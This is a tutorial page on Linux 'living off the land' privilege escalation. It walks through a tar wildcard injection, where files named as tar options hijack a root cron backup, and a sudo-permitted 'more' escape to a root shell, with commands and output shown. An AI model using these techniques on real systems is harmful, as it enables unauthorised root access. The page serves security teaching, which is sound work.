 # Living off the land

## Theory

Living of the Land is a well known privilege escalation technique, where an attacker will leverage binaries found on the attacked machine to perform a privilege escalation. Indeed, many UNIX programs have options that can be exploited to open a shell. Therefore if we can start the program we exploit as another user, we might be able to open a shell as this user ! 

Most of the payloads to do this on UNIX programs can be found on [gtfobins.github.io](https://gtfobins.github.io/).

## Practice

Here are two case study to better understand the principle of these privilege escalations :

### Case study 1 : Privesc using tar and a cronjob

Imagine a scenario where a script backups a directory \(that we can control\) on the server each hour using `tar` like this :

```text
#!/bin/bash

mkdir -p /backups/
cd /var/www/html/ && tar cvzf /backups/backup_$(date +%Y_%m_%d_%Hh%M).tar.gz *
```

Notice this interesting pattern `tar czvf file.tar.gz *` in the script. This is a security vulnerability because of how UNIX shells handles wildcards. Let's see an example with the `ls` command :

```text
$ ls -lha
total 84K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    0 avril 27 22:31 file3
$ ls *
file1  file2  file3

$ echo '' > '-lha'
$ ls -lha 
total 88K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    0 avril 27 22:31 file3
-rw-rw-r--  1 user user    1 avril 27 22:32 -lha
$ ls *
-rw-rw-r-- 1 user user 0 avril 27 22:31 file1
-rw-rw-r-- 1 user user 0 avril 27 22:31 file2
-rw-rw-r-- 1 user user 0 avril 27 22:31 file3
```

The shell wildcards are resolved by the shell, and not by the command. This means filenames can be treated as options if they are starting with a `-`. In our previous example, we added a file called `-lha` into the folder. When we type `ls *`, the shell replaces the `*` by all matching files in the current directory, and therefore our command becomes `ls file1 file2 file3 -lha`. After the wildcard resolution, the shell executes the command with our options.

Now if we get back to our script creating a backup of a directory each our with `tar *`, we see that tar have legitimate options allowing execution of a program. You can find them here :

* [https://gtfobins.github.io/gtfobins/tar/\#shell](https://gtfobins.github.io/gtfobins/tar/#shell)

To use these options in our exploit, we jut need to create these two files in our directory, as well as the `exploit.sh` file, containing the command we want to run when we trigger the execution :

```text
echo '' > '--checkpoint=1'
echo '' > '--checkpoint-action=exec=sh exploit.sh'

$ ls -lha 
total 88K
drwxrwxr-x  2 user user 4,0K avril 27 22:32 .
drwxrwxrwt 89 user user  76K avril 27 22:31 ..
-rw-rw-r--  1 user user    0 avril 27 22:31 file1
-rw-rw-r--  1 user user    0 avril 27 22:31 file2
-rw-rw-r--  1 user user    1 avril 27 22:31 '--checkpoint=1'
-rw-rw-r--  1 user user    1 avril 27 22:32 '--checkpoint-action=exec=sh exploit.sh'
-rwxrwxrwx  1 user user  784 avril 27 22:32 exploit.sh
```

We are now ready ! We just need to wait until the directory is backup again, and it will trigger our payload and execute `exploit.sh` file!

### Case study 2 : Privesc using more and sudo

Let's take an example, with this `sudo` configuration :

```text
$ sudo -l
[sudo] password for user: 
Matching Defaults entries for user on PC1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on PC1:
    (ALL : NOPASSWD) /usr/bin/more /var/log/apache2/access.log
```

In this case `user` can run the `more` command, but only to read a specific log file `/var/log/apache2/access.log` as `root` without password \(`NOPASSWD` flag\) : 

```text
sudo -u root /usr/bin/more /var/log/apache2/access.log
```

You can assume this would be safe right ? Unfortunately, it's not. The `more` command has various useful options, one of them is `!`. When you're in `more` and you type an exclamation mark followed by the path to a binary file, you can execute it in a subprocess. For example if you type `!/bin/sh` in `more`, you will open a shell as the owner of the parent `more` process !

```text
$ sudo -u root /usr/bin/more /var/log/apache2/access.log
File content line 1
File content line 2
...
File content line n
------------------------
!/bin/sh
# 
uid=0(root) gid=0(root) groups=0(root)
# 
```

